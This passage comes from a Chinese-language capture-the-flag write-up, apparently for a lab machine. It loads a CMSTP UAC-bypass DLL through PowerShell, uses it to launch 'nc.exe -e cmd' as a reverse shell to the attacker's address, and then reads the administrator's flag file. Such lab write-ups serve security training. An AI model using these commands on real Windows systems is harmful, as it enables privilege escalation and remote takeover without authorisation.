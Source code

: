 ```
[Reflection.Assembly]::Load([IO.File]::ReadAllBytes("$pwd\CMSTP-UAC-Bypass.dll"))
```

在本地开启 nc 监听，可以调用导出的函数执行反弹 shell

```
[CMSTPBypass]::Execute("C:\windows\System32\spool\drivers\color\nc.exe -e cmd 10.10.14.14 7777")
```

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTqQolGUk4Aic4MFYGfibH99aePmTqAH8IibXRtrLfXxWqn7ic9H7K7LNlW0icSrubOiaNxV4gUDzxZcoWMA/640?wx_fmt=png)截屏 2021-12-20 上午 5.41.02

在本地获取到反弹 shell![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTqQolGUk4Aic4MFYGfibH99aeZnhvFjkslPVmA38k8JkRdJrtPV5Gkm5LtwRqL6ickPGqstbiaz7DfLVg/640?wx_fmt=png)

查看权限以及对应 flag

```
whoami /priv<br style="box-sizing: border-box;">
```

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTqQolGUk4Aic4MFYGfibH99aeTmMvC0ksZ49BkATpJtjCwb6lXU7P5l6AqX0WAib3hyPibSJDzqKSFHUA/640?wx_fmt=png)截屏 2021-12-20 上午 5.42.49

```
dir c:\Users\administrator\Desktoptype c:\Users\administrator\Desktop\root.txt
```

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTqQolGUk4Aic4MFYGfibH99aeSQ67L4nBgZA9DIB6B97mPvu1FIh85rmFSlIoIV3sS97XYT7gW6GhrQ/640?wx_fmt=png)截屏 2021-12-20 上午 5.43.06